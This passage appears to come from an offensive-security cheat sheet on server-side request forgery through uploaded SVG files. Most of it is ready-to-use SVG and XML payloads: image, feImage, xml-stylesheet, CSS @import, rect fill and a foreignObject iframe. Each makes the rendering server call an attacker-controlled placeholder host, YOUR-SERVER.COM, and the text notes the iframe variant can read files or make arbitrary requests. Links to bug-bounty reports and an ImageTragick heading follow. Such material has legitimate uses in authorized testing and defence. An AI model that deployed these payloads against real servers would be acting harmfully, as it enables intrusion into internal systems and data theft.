 External image
```
<image height="100" width="100" xlink:href="http://YOUR-SERVER.COM:80/" />
```
```
<feImage xlink:href="http://YOUR-SERVER.COM:80/" width="200" height="200"/>
```

External stylesheet
```
<?xml-stylesheet type="text/css" href="http://YOUR-SERVER.COM:80"?>
```
```
<style>
   @import url(http://YOUR-SERVER.COM:80/);
</style>
```

External fill source. [From HackerOne](https://hackerone.com/reports/347139) 
```
<rect fill="url(http://YOUR-SERVER.COM:80)">
```

Iframe
If iframe is rendered then you can try to read files or make arbitrary requests
```
<foreignObject width="100" height="100">
    <iframe src="http://YOUR-SERVER.COM:80"></iframe>
</foreignObject>
```

External CSS
```
  <style>
    @import url(http://YOUR-SERVER.COM:80/);
  </style>
```

[SVG tags that include xlink:href attribute](https://developer.mozilla.org/en-US/docs/Web/SVG/Attribute/xlink:href)

**Links**

* [SSRF via xlink SVG, fingerprinting libraries](
https://medium.com/@arbazhussain/svg-xlink-ssrf-fingerprinting-libraries-version-450ebecc2f3c)
* [SVGSalamander CVE-2017-5617, Java library for SVG handling](https://github.com/blackears/svgSalamander/issues/11)
* [Another collection of SVG SSRF payloads](
https://github.com/cujanovic/SSRF-Testing/tree/master/svg)
* [XSS via SVG, Abdullah Hussam Paragon Initiative Enterprises BugBounty](https://hackerone.com/reports/148853)
* [SSRF via xlink, floyd Shopify BugBounty](https://hackerone.com/reports/223203)
* [SSRF via fill, Alex Birsan Rockstar Games BugBounty](https://hackerone.com/reports/265050)

#### ImageTragick (CVE-2016–3714, CVE-2016-3718, CVE-2016-3715, CVE-2016-3716, CVE-2016-3717)

The most famous bugs in ImageMagick. Vulnerabilities were found by [Stewie](https://hackerone.com/stewie) and [Nikolay Ermishkin ](https://twitter.com/__sl1m). It includes RCE, SSRF, File deletion, File moving, and Local file read.
